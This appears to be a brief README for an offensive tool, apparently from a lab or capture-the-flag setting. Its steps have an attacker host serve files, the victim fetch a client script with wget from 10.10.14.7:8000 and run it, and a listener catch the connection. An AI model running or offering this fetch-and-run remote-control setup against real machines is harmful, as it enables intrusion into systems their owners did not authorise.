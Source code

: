 # Assumptions
- python3 exists on the server

# Steps
1. (on attacker): python3 http_server.py
2. (on victim): wget 10.10.14.7:8000/victim_client_10.10.14.7.py
3. (on attacker): python3 listener.py
4. (on victim): python3 victim_client_10.10.14.7.py
